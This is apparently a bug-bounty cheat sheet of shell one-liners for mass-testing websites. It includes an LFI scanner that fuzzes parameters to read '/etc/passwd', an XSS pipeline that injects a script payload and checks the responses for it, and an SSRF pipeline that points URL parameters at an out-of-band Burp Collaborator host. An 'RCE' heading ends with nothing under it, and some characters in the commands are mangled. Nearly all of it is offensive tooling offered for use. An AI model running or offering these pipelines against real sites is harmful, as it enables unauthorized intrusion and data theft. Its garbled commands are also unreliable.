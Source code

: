 ## LFI Oneliner:
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done

## XSS Oneliner:

cat file.txt | gf xss | grep ‘source=’ | qsreplace ‘”><script>confirm(1)</script>’ | while read host do ; do curl –silent –path-as-is –insecure “$host” | grep -qs “<script>confirm(1)” && echo “$host 33[0;31mVulnerablen”;done

## SSRF Oneliner:
findomain -t example.com -q | httpx -silent -threads 1000 | gau | grep “=” | qsreplace http://YOUR.burpcollaborator.net

## RCE Oneliner:
